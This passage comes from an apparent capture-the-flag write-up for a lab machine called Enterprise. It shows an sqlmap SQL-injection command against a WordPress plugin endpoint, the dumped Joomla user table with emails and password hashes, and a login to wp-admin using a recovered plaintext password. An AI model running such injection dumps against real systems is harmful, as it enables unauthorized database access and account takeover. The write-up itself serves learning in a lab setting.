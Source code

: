 The `edz2g_users` table returns two more users:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb -T edz2g_users --dump
...[snip]...
Database: joomladb
Table: edz2g_users
[2 entries]
+-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| id  | name       | otep    | block | email                          | otpKey  | params                                                                                       | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
+-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| 400 | Super User | <blank> | 0     | geordi.la.forge@enterprise.htb | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge | 1         | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
| 401 | Guinan     | <blank> | 0     | guinan@enterprise.htb          | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | Guinan          | 0         | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
+-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
...[snip]...

```

I’ll add geordi.la.forge and Guinan to my notes.

## Shell as www-data on WordPress

### wp-admin

To log into the WordPress instance, I’ll visit `http://enterprise.htb/wp-admin`, and it redirects to a login page:

![image-20210615144859825](https://0xdfimages.gitlab.io/img/image-20210615144859825.png)

I have one user name (william.riker) and four passwords. `u*Z14ru0p#ttj83zS6` works:

![image-20210615145023830](https://0xdfimages.gitlab.io/img/image-20210615145023830.png)
